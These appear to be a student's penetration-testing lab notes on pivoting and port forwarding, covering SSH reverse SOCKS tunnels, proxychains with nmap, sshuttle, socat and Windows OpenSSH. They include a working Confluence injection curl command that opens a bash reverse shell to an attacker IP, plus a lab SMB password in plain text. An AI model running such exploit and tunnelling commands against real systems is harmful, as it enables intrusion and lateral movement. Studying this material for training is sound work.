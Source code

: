 ![[Pasted image 20240121181834.png]]

	- The SSH session is initiated from CONFLUENCE01, connecting to the Kali machine, which is running an SSH server. The SOCKS proxy port is then bound to the Kali machine on TCP/9998. Packets sent to that port will be pushed back through the SSH tunnel to CONFLUENCE01, where they will be forwarded based on where they're addressed - in this case, MULTISERVER03.

- conluence exploit:
	- ```curl http://192.168.200.63:8090/%24%7Bnew%20javax.script.ScriptEngineManager%28%29.getEngineByName%28%22nashorn%22%29.eval%28%22new%20java.lang.ProcessBuilder%28%29.command%28%27bash%27%2C%27-c%27%2C%27bash%20-i%20%3E%26%20/dev/tcp/192.168.45.187/1234%200%3E%261%27%29.start%28%29%22%29%7D/```
- TTY shell
	- ```python3 -c 'import pty; pty.spawn("/bin/sh")'```
- Remote dynamic port fowarding
	- only need to pass SSH server listening socket
		- By default, bound to the loopback interface of the SSH server
	- ```ssh -N -R 9998 kali@192.168.45.186```
		- -R 9998 = SOCKS proxy port
- confirm
	- ```sudo ss -ntplu```
- edit proxychain config file
	- ```socks5 127.0.0.1 9998```
- run nmap with proxychains against MULTISERVER03
	- ```proxychains nmap -vvv -sT -p 9000-9100 -Pn -n 10.4.225.215```

[kill process on a port]
	- fuser -k -SIGTERM 4444/tcp
[invoke x86 code on ARM]
	- qemu-x86_x64-static [file]

### Using sshuttle
- sshuttle
	- turns an SSH connection into something similar to a VPN by setting up local routes that force traffic through the SSH tunnel.
	- [requires root ] on SSH Client
	- [requires python3] on SSH server

	- Example:
		- port forward in a shell on CONFLUENCE01, listening on port 2222 on the WAN interface and forwarding to port 22 on PGDATABASE01.
			- ```socat TCP-LISTEN:2222,fork TCP:10.4.50.215:22```
		- run **sshuttle** while specifying subnets we want to tunnel through this connection
			- ```sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24```
		- connect to the SMB share on HRSHARES
			- ```smbclient -L //172.16.50.217/ -U hr_admin --password=Welcome1234```

### Port Forwarding with Windows Tools

### ssh.exe

- Different ssh tools
	- **scp.exe**, **sftp.exe**, **ssh.exe**, along with other **ssh-***
- DefualtLocation:
	- ```%systemdrive%\Windows\System32\OpenSSH```

